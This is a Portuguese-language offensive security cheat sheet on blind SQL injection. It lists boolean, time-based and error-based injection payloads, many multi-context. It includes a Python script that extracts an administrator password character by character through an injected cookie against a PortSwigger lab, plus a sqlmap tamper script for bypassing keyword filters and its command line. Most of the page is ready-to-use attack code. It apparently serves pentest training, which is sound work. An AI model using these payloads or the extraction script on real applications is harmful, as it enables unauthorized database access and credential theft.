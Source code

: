 # Blind SQLi

:hamburger:Basicamente uma aplicação é vulnerável a Blind SQL Injection quando não retorna nenhum resultado como resposta aos códigos SQL injetados. Neste cenário, códigos contendo UNION não são efetivos, e é necessário usar códigos condicionais para extrair informações da base de dados. 

:fries:Checklist

- Boolean-based Blind SQLi
<p>Se a aplicação mudar a resposta ao enviar uma sentença falsa, isso é um indício de que a aplicação está vulnerável.</p>

```
' AND 1=1 -- - (true)
' AND 1=2 -- - (false)
```
- Time-based Blind SQLi
<p>Códigos com 'SLEEP' ou 'BENCHMARCK' forçam a base de dados a esperar 10 segundos quando a condição é verdadeira. Se a resposta tiver um delay de 10 segundos (ou outro valor adicionado ao comando), isso indica que o payload funcionou, e a aplicação está vulnerável. </p>

```
/* Multicontext */
SLEEP(10)
SLEEP(10) /*' or SLEEP(10) or '" or SLEEP(10) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```
- Error-based Blind SQLi
<p>Apesar do Blind SQL Injection não retornar uma mensagem de erro convencional, quando usamos CASE para testar uma condição, podemos obter o retorno de "strings", e fazer o mapeamento de informações a partir dessa resposta. </p>

```
 ' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT database()),1,1)) = 'a') THEN CAST('' AS INT) ELSE 'a' END) -- ';
 
 select substring(database(),1,1)
 
 ' and substring(@@version,1,1)='[valor-para-testar]
```
### Burp Suite to exploit Blind SQLi
<p>Instale a extensão "Copy as Python-Requests" do Burp Suite e use a requisição para realizar a exploração do Blind SQL Injection. Verifique os seguintes comportamentos: 
- É possível disparar uma consulta DNS? Esse pode ser um indício de que a aplicação é vulnerável a Blind SQL Injection.
- Use o SQLMap com a técnica ```--technique=B```
 
Script de exemplo para exploração do Blind SQLi com respostas condicionais.</p>
Burp Lab: https://portswigger.net/web-security/sql-injection/blind/lab-conditional-responses
<br></br>

```
import requests
import string

burp0_url = "https://[host]"
burp0_cookies = {"TrackingId": "2OhtAv5umLt0e9Yg", "session": "2yNubi9Et3RQFcH4WCBFiX3LO8RurQ21"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Referer": "https://0ae100df03b5e2d68630f39d00cd0013.web-security-academy.net/filter?category=Gifts", "Dnt": "1", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1", "Te": "trailers"}

char_set = string.ascii_lowercase + string.digits
password = ''

for position in range(1,21):
    for char in char_set:
        burp0_cookies["TrackingId"] = f"2OhtAv5umLt0e9Yg' AND (SELECT SUBSTRING(password,{position},1) FROM users WHERE username = 'administrator')='{char}"
        print(f"Testando: {position}:{char}")
        response = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

        if "Welcome" in response.text:
            print(f"Found {position}:{char}")
            password += char
            break
print(f"Pass: {password}")
```
### Script para bypass de filtro de palavras 
<p>Use o script abaixo com a opção Tamper do SQLMap</p>

```
#!/usr/bin/env python
from lib.core.enums import PRIORITY

__priority__ = PRIORITY.NORMAL

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces each keyword a CaMeLcAsE VeRsIoN of it.

    >>> tamper('INSERT')
    'InSeRt'
    """

    retVal = str()

    if payload:
        for i in xrange(len(payload)):
            if (i % 2 == 0):
                # We cannot break 0x12345
                if not ((payload[i] == 'x') and (payload[i-1] == '0')):
                    retVal += payload[i].upper()
                else:
                    retVal += payload[i]
            else:
                retVal += payload[i].lower()
    return retVal
```
#### Execução do script 
```
sqlmap -u 'http://[URL]/' -p user-agent --technique=U --tamper=/path/to/your/tampering/scripts/camelcase.py --prefix="nonexistent'" --suffix=';#' --union-char=els --banner
```
#### Sempre verifique os seguintes comportamentos: 
- É possível disparar uma consulta DNS? Esse pode ser um indício de que a aplicação é vulnerável a Blind SQL Injection.
- Use o SQLMap com a técnica ```--technique=B```
- Teste o Blind SQLi usando a extração de caracteres e a extração da versão da base de dados:
```AND (SELECT SUBSTRING(version(),1,1))='5'```

#### :orange_book: Site para testar códigos SQL: https://www.db-fiddle.com/
#### :orange_book: Portswigger Cheatsheet para SQL Injection: https://portswigger.net/web-security/sql-injection/cheat-sheet

